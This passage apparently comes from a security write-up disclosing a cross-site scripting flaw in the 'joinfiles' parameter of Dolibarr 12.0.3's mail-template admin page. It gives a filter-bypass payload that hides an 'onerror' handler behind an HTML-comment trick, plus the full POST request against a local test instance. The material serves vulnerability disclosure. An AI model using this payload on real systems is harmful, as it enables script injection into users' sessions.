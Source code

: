 ![alt text](../captures/c17_8.png "Figure 9: Vulnerability spotted")

The POST parameter `joinfiles` is therefore vulnerable. As for the first vulnerability the identification is trivial, however the exploitation is less so, because a filtering mechanism seems to be in place.

The method that has been used to work around this mechanism is to use HTML [comments](https://www.w3schools.com/tags/tag_comment.asp) (example: `<!--This is a comment. Comments are not displayed in the browser-->`. ).

Payload: `test1"><img on<--! -->error=alert(1338) src="x`

Request:
```
POST /projects/dolibar/12.0.3/htdocs/admin/mails_templates.php?id=25 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 276
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/dolibar/12.0.3/htdocs/admin/mails_templates.php?sortfield=type_template,%20lang,%20position,%20label&sortorder=ASC&rowid=52&code=&id=25&action=confirm_delete&confirm=yes&token=%242y%2410%246%2FyHe0GZi96PqAYe03%2F07u.a3FeKJv%2FHtxt7QZKFL2TLikMUp0qcS
Cookie: DOLSESSID_3cf7d57f6a25259d0a0160385799627b=b8b460845389eb4c954a36fbca897a1e; PHPSESSID=59c081265d533a90dc35f69b483be65c; DOLINSTALLNOPING_7d47c028b26e0f9d1c2e2d351e07bf80=1
Upgrade-Insecure-Requests: 1

token=%242y%2410%24juTUR6fAlxNNtN%2F69bBpFOq8042fkjNx7iGW26ZQsjBn5eO55uamq&from=&id=25&label=0&langcode=&type_template=all&fk_user=2&private=0&position=0&topic=test0&actionadd=Ajouter&joinfiles=test1%22%3E%3Cimg+on%3C--%21+--%3Eerror%3Dalert%281338%29+src%3D%22x&content=test2
```
